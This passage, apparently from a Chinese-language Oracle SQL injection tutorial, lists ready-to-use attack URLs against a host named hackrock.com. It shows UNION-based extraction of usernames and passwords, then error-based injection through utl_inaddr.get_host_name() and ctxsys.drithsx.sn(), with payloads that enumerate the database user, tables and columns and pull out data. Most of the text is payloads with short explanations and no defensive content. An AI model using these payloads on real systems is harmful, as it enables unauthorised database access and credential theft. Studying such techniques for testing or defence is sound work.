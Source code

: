 ###### 7.获取数据

```
http://hackrock.com:8080/oracle/?id=-1 union select 1,(select concat(concat(username,'~~'),password) from users where rownum=1),null from dual --+    
```



##### 10)**报错注入**

```
在oracle注入时候出现了数据库报错信息，可以优先选择报错注入，使用报错的方式将查询数据的结果带出到错误页面中。

使用报错注入需要使用类似 1=[报错语句]，1>[报错语句]，使用比较运算符，这样的方式进行报错注入（MYSQL仅使用函数报错即可），类似mssql报错注入的方式。
```

###### 1.utl_inaddr.get_host_name()函数报错注入

```
utl_inaddr.get_host_address 本意是获取ip 地址，但是如果传递参数无法得到解析就会返回一个oracle 错误并显示传递的参数。

我们传递的是一个sql 语句所以返回的就是语句执行的结果。oracle 在启动之后，把一些系统变量都放置到一些特定的视图当中，可以利用这些视图获得想要的东西。
```



```
获取用户名
http://hackrock.com:8080/oracle/?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select user from dual)%7c%7c'~') --+

获取表名
http://hackrock.com:8080/oracle/?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') --+

获取字段名
http://hackrock.com:8080/oracle/?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') --+

获取数据
http://hackrock.com:8080/oracle/?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') --+
```

###### 2.ctxsys.drithsx.sn()函数报错注入

```
获取用户名
http://hackrock.com:8080/oracle/?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select user from dual)%7c%7c'~') --+

获取表名
http://hackrock.com:8080/oracle/?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') --+

获取字段名
http://hackrock.com:8080/oracle/?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') --+

获取数据
http://hackrock.com:8080/oracle/?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') --+
```
